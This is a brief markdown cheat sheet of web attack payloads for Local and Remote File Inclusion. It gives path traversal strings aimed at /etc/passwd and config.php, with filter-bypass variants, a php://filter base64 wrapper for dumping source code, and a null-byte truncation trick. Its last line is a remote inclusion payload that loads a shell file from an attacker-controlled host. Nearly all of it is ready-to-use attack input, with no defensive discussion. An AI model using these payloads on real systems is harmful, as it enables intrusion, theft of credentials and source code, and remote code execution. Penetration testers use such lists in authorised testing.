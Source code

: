 # Local & Remote File Inclusion

## LFI Test Payloads
?page=../../../../etc/passwd
?page=....//....//....//etc/passwd
?page=/var/www/html/config.php

## PHP Wrappers
?page=php://filter/convert.base64-encode/resource=config.php

## Null Byte (older PHP)
?page=../../../../etc/passwd%00

## RFI (if allow_url_include=On)
?page=http://<ATTACKER_IP>/shell.txt
